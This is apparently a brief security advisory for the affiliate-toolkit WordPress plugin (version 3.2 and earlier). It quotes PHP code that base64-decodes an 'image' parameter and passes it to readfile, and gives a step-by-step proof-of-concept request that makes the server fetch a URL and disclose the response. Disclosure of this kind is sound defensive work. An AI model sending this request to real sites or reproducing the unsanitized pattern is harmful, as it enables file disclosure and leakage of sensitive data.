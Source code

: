 ### affiliate-toolkit

- **Application**: affiliate-toolkit <= 3.2

- **Threat Impact**: File disclosure, Sensitive data leakage

- **Code**: Tainted parameter `image` is base64 decoded then feed into sink `readfile` directly.

  File: `tools/atkp_imagereceiver.php`

  ```
  $url = ( isset( $_GET['image'] ) ) ? $_GET['image'] : '';
  $image_url = base64_decode( $url );
  ...
  readfile( $image_url );
  ```

- **POC**:
  1. Listen on 8080 on server side
  1. Send a get request to wp-content/plugins/affiliate-toolkit-starter/tools/atkp_imagereceiver.php?image=aHR0cDovL2xvY2FsaG9zdDo4MDgw&hash=dd4349f3bf4a552af419e12c282ba25a
  1. Receive a request on server side. The full response is also disclosed

